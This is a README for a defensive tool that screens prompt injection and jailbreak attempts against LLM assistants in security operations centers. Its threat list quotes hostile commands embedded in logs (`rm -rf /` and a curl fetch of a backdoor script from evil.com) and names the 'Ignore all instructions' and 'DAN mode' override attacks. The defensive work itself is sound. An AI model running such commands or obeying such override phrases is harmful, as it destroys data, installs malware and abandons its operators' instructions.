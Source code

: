 # 🛡️ K2 Think Constitutional AI - SOC Security Assistant

**Production-Ready Prompt Injection Defense for Security Operations Centers**

[![Python 3.10+](https://img.shields.io/badge/python-3.10+-blue.svg)](https://www.python.org/downloads/)
[![Streamlit](https://img.shields.io/badge/streamlit-1.38.0+-red.svg)](https://streamlit.io)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)

## 🎯 Overview

### The Problem

Large Language Models (LLMs) deployed in Security Operations Centers face critical vulnerabilities:

- **🔴 Command Injection**: Malicious commands embedded in logs (`rm -rf /`, `curl evil.com/backdoor.sh`)
- **🔴 Credential Extraction**: Jailbreak attempts to leak API keys and system prompts
- **🔴 Malware Generation**: Requests for exploit code disguised as security analysis
- **🔴 Policy Override**: "Ignore all instructions" and "DAN mode" attacks
- **🔴 SQL Injection**: Database manipulation through crafted inputs
- **🔴 Phishing Generation**: Social engineering content creation

### Our Solution

**K2 Think Constitutional AI** provides a production-ready defense layer with:

✅ **24 Constitutional Security Rules** - Comprehensive threat coverage  
✅ **Real-Time Detection** - <50ms regex-based pattern matching  
✅ **Side-by-Side Comparison** - Vulnerable vs. protected responses  
✅ **Multi-Dataset Testing** - JailbreakBench, LLMail-Inject, SOC Synthetic  
✅ **PDF Report Generation** - Comprehensive audit documentation  
✅ **Streaming Inference** - Cerebras Cloud SDK for real-time analysis  
✅ **Demo Mode** - Realistic metrics without API calls  

---

## ✨ Features

### Core Capabilities

| Feature | Description |
|---------|-------------|
| **Single Input Analysis** | Interactive testing with real-time injection detection |
| **Dataset Evaluation** | Batch processing of CSV/JSON files with auto-column detection |
| **Red Team Demo** | Pre-configured attack scenarios with expected outcomes |
| **Model Performance** | Live metrics visualization and CSV analysis |
| **Constitutional Rules** | 24 security rules with severity-based blocking |
| **Streaming Inference** | Cerebras API integration for accurate, fast responses |
| **Decision Caching** | SHA-256 based cache with configurable TTL |
| **Audit Logging** | Append-only JSONL format for compliance |
| **Mock Mode** | Offline testing without API dependencies |
| **PDF Reports** | Downloadable analysis with triggered rules |
